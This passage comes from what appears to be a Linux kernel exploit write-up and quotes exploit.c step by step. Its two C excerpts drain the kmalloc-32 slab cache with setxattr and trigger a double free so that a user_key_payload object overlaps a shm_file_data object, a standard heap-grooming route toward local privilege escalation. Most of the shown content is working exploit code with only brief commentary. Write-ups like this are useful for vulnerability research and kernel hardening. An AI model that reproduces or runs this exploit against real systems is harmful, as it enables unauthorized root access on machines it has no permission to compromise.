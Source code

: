 - [exploit.c#L288](./exploit.c#L288):

```c
bool drain_kmalloc_32(int n)
{
  static bool first_time = true;
  static int obj_cnt = 0;
  
  if (first_time) {
    if (!create_file(DRAIN_KMALLOC_32_FILE_PATH))
      return false;

    first_time = false;
  }

  char payload[32] = {};
  char name[512] = {};
  
  for (int i = 0; i < n; i++) {
    snprintf(name, sizeof(name), "security.A%d", obj_cnt);
    if (setxattr(DRAIN_KMALLOC_32_FILE_PATH, name, payload, 0, 0) < 0) {
      fprintf(stderr, "setxattr(kmalloc_32) failed: %s\n", strerror(errno));
      return false;
    }

    obj_cnt++;
  }

  return true;
}
```

- Note: I think this step is unnecessary. Anyway, it don't cause any problem.

### Step3.3: Try to overlap `struct user_key_payload` object and `struct shm_file_data` object
- Free `struct user_key_payload` object [exploit.c#L623](./exploit.c#L623):

```c
df_fsfd = prepare_double_free(KMALLOC_32);
if (df_fsfd < 0)
  return 0;

get_full_timesplice();
trigger_first_free(df_fsfd);
read_kmalloc_32_key = user_key_payload_alloc("key32", "A", 1);
if (read_kmalloc_32_key < 0)
  return 0;

get_full_timesplice();
trigger_second_free(df_fsfd);
```
